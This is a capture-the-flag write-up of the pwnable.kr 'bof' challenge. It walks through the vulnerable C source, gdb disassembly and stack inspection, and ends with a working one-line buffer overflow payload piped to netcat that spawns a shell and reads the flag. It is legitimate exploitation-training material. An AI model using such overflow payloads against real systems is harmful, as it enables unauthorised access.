 # bof

Nana told me that buffer overflow is one of the most common software vulnerability. 
Is that true?


ssh bof@pwnable.kr -p2222 (pw: guest)

- let's check the contents of the directory
```bash
bof@ubuntu:~$ ls -ls
total 24
16 -rwxr-xr-x 1 root bof  15300 Mar 26  2025 bof
 4 -rw-r--r-- 1 root root   342 Mar 26  2025 bof.c
 4 -rw-r--r-- 1 root root    86 Apr  3 16:03 readme
```
```bash
bof@ubuntu:~$ cat readme
bof binary is running at "nc 0 9000" under bof_pwn privilege. get shell and read flag
bof@ubuntu:~$ cat bof.c
```
```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                setregid(getegid(), getegid());
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```
- when i follow the instructions on the readme:
```bash
bof@ubuntu:~$ nc 0 9000
hdsjfksd
overflow me : Nah..
```
- seems that I need to overflow the buffer somehow and make the input to func 0xcafebebe instead of 0xdeadbeef
- how buffer over flow works:
    - lets take this function for example:
    ```c
    void func(const char* input){
        char buf[8];
        int n = 0x11111111;
        gets(buf);
    }
    ```
    - if we were to input 'AAAAAAAAAAAA', since buf can only hold 8 bytes, it would store the first 8. But what happens to last 4?
    - after running the program with the input we find that suddenly, n=0x41414141
    - 0x41 is the hex number for the ascii character 'A', so that's what happens to the last 4 'A's
    - i copied the bof executable into my local computer since bof runs over nc
    - when I run 'gdb bof' I disassemble both main and func to see how it runs and look for possible breakpoints
    ```bash
        gef➤  disass main
        Dump of assembler code for function main:
        0x0000068a <+0>:     push   ebp
        0x0000068b <+1>:     mov    ebp,esp
        0x0000068d <+3>:     and    esp,0xfffffff0
        0x00000690 <+6>:     sub    esp,0x10
        0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
        0x0000069a <+16>:    call   0x62c <func>
        0x0000069f <+21>:    mov    eax,0x0
        0x000006a4 <+26>:    leave
        0x000006a5 <+27>:    ret
        End of assembler dump.
        gef➤  disass func
        Dump of assembler code for function func:
        0x0000062c <+0>:     push   ebp
        0x0000062d <+1>:     mov    ebp,esp
        0x0000062f <+3>:     sub    esp,0x48
        0x00000632 <+6>:     mov    eax,gs:0x14
        0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
        0x0000063b <+15>:    xor    eax,eax
        0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
        0x00000644 <+24>:    call   0x645 <func+25>
        0x00000649 <+29>:    lea    eax,[ebp-0x2c]
        0x0000064c <+32>:    mov    DWORD PTR [esp],eax
        0x0000064f <+35>:    call   0x650 <func+36>
        0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
        0x0000065b <+47>:    jne    0x66b <func+63>
        0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
        0x00000664 <+56>:    call   0x665 <func+57>
        0x00000669 <+61>:    jmp    0x677 <func+75>
        0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
        0x00000672 <+70>:    call   0x673 <func+71>
        0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
        0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
        0x00000681 <+85>:    je     0x688 <func+92>
        0x00000683 <+87>:    call   0x684 <func+88>
        0x00000688 <+92>:    leave
        0x00000689 <+93>:    ret
        End of assembler dump.
        gef➤  

    ```
    - what stands out to me is the line in func:
    ```bash
    0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
    ```
    - as it corresponds to the line in C:
    ```c
    if(key == 0xcafebabe)
    ```
    - also noting that it is the line right before is:
    ```c
    gets(overflowme);       // smash me!
    ```
    - this gives me the idea that we can overflow the buffer to change the variable key from 0xdeadbeef to 0xcafebabe
    - lets put a breakpoint in func+40 where the cmp instruction is used
    - when we break at that line, we will check the address at ebp+0*8
    - for now, when the program prompts us for input, we will type a few "A"s
    ```bash
        gef➤  x/50wx $ebp+0*8
        0xffffcee8:     0xffffcf08      0x5655569f      0xdeadbeef      0x00000000
        0xffffcef8:     0x00000000      0x00000000      0x00000000      0x00000000
        0xffffcf08:     0x00000000      0xf7d8ecc3      0x00000001      0xffffcfc4
        0xffffcf18:     0xffffcfcc      0xffffcf30      0xf7f9ce14      0x5655568a
        0xffffcf28:     0x00000001      0xffffcfc4      0xf7f9ce14      0x565556b0
        0xffffcf38:     0xf7ffcb60      0x00000000      0xb33f7722      0xfd785132
        0xffffcf48:     0x00000000      0x00000000      0x00000000      0xf7ffcb60
        0xffffcf58:     0x00000000      0x79e58300      0xf7ffda60      0xf7d8ec56
        0xffffcf68:     0xf7f9ce14      0xf7d8ed88      0xf7fc7ac4      0x56556ff4
        0xffffcf78:     0x00000001      0x56555530      0x00000000      0xf7fd8390
        0xffffcf88:     0xf7d8ed09      0x56556ff4      0x00000001      0x56555530
        0xffffcf98:     0x00000000      0x56555561      0x5655568a      0x00000001
        0xffffcfa8:     0xffffcfc4      0x565556b0
        gef➤ 
    ```
    - we found 0xdeadbeef, but where are our "A"s?
    ```bash
        gef➤  x/24wx $esp
        0xffffcea0:     0xffffcebc      0xffffd18b      0x00000002      0xffffced8
        0xffffceb0:     0xf7ffcfec      0x00000000      0x00000014      0x41414141
        0xffffcec0:     0x41414141      0x41414141      0x41414141      0x00000041
        0xffffced0:     0x00000000      0x00000000      0xffffffff      0x79e58300
        0xffffcee0:     0xf7fbf400      0x00000000      0xffffcf08      0x5655569f
        0xffffcef0:     0xdeadbeef      0x00000000      0x00000000      0x00000000
        gef➤  
    ```
    - there they are, the 0x41414141's
    - each block is 4 bytes and there are 13 blocks from the start of the "A"s to deadbeef
    - there are 4*13 = 52 bytes before we reach where deadbeef is located on the stack
    - this means that our payload needs to be "A"*52 + '0xcafebabe'
        - remember x86 architecture is little endian
        - so "A"*52 + '0xbebafeca'
    - earlier the readme said that the binary was running at nc 0 9000
        - lets use echo to print out our input to the commandline thru netcat
    ```bash
    (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000
    ```
    - we add the && cat so the program doesn't hang
    ```bash
        bof@ubuntu:~$ (echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xbe\xba\xfe\xca" && cat) | nc 0 9000  
        ls -ls
        total 5352
        16 -rwxr-xr-x 1 root root      15300 Apr  3 15:55 bof
        4 -rw-r--r-- 1 root root        372 Apr  3 15:54 bof.c
        4 -r--r----- 1 root bof_pwn      29 Apr  3 15:46 flag
        5324 -rw-r--r-- 1 root root    5445200 Oct  1 07:26 log
        4 -rwx------ 1 root root        768 Apr  3 16:06 super.pl
        cat flag
        Daddy_I_just_pwned_a_buff3r!
    ```